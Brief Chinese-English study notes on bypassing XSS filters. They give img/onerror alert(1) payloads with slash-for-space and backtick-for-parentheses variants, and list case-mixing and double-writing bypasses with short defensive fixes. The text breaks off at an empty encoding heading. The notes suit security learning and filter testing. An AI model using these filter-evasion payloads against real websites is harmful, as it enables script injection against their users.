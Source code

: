 



### xss 绕过

https://xz.aliyun.com/t/12890?time__1311=mqmhq%2BxjhiGKDsD7GY0%3DXh1BQ35i%3D4D&alichlgref=https%3A%2F%2Fwww.google.com%2F

#### 空格绕过

空格使用由`/`来进行替代

```
<img src=x onerror=alert(1)>
```

修改为：

```
<img/src=x/onerror=alert(1)>
```

- `onerror`: This is an event attribute in HTML. It specifies a JavaScript code to be executed if an error occurs while loading the image specified in the `src` attribute.
-  the `/` character in the `<img>` tag is being used as a separator between the tag name `<img>` and the attribute name `src`. It's essentially closing the tag name and indicating that the `src` attribute follows.



#### `()`括号绕过

```
<img src=x onerror=alert(1)>
```

修改为：

```
<img src=x onerror=alert`1`>
```

The use of backticks in JavaScript is for template literals. Template literals allow for embedded expressions and multiline strings. In this case, alert\`1\` is a template literal where the expression \`1` is embedded within the template.



#### 大小写绕过

由于正则表达式的不严密导致可以使用大小写来进行绕过

解决方案：使用正则表达式忽略大小写的模式



#### 双写绕过

由于只进行了一次关键字符的替换导致可以被双写绕过

解决方案：循环检测关键字符



#### 编码绕过
